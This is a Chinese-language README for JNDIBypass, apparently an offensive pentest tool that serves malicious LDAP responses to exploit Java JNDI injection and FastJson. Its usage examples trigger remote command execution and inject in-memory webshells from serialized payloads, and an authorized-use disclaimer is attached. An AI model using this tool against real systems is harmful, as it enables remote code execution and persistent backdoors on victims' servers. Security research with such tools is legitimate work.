 # JNDIBypass

## 项目介绍

JNDIBypass 是一个用于测试 Java JNDI 注入漏洞的工具，可用于安全研究和渗透测试。该工具提供了一个 LDAP 服务器实现，可以用来模拟 JNDI 注入攻击，执行命令或注入内存马。

## 功能特性

- 启动自定义 LDAP 服务器
- 支持命令执行功能
- 支持内存马注入
- 支持 FastJson 漏洞利用

## 环境要求

- JDK 8+
- Maven

## 安装方法

```bash
# 克隆项目
git clone https://github.com/kN6jq/jndibypass.git

# 进入项目目录
cd jndibypass

# 使用 Maven 构建项目
mvn clean package
```

## 使用方法


```bash
# 基本用法
java -jar target/jndibypass-1.0-SNAPSHOT.jar [选项]

# 示例 - 执行命令
java -jar target/jndibypass-1.0-SNAPSHOT.jar -a 192.168.11.1 -p 1389 -c "touch /tmp/test"

# 示例 - 注入内存马
java -jar target/jndibypass-1.0-SNAPSHOT.jar -a 192.168.11.1 -p 1389 -ms 1.txt
```

## 内存马生成

这里主要是看依赖，一般来说可以考虑jackjson或者fastjson之类的
使用java-chains等工具生成的rO0AB开头内存马

## 参数说明

| 参数 | 全称 | 描述 | 默认值 |
|------|------|------|--------|
| `-a` | | 本地 IP 地址 | 0.0.0.0 |
| `-p` | `--port` | 监听端口 | 1389 |
| `-c` | `--command` | 执行的命令，如 calc, whoami 等 | |
| `-h` | `--help` | 显示帮助信息 | |
| `-ms` | `--memshell` | 注入内存马，需要提供以 rO0AB 开头的序列化数据 | |

## 安全提示

本工具仅用于授权的安全测试和研究目的。未经授权在生产系统或第三方系统上使用本工具可能违反法律法规。使用者需要对自己的行为负责。

## 免责声明

本项目仅供安全研究和教育目的使用，开发者对任何人使用此工具造成的任何直接或间接损失不承担责任。

## 参考资料

- [Java JNDI 注入漏洞详解](https://link-to-reference)
- [Log4j 漏洞分析](https://link-to-reference)
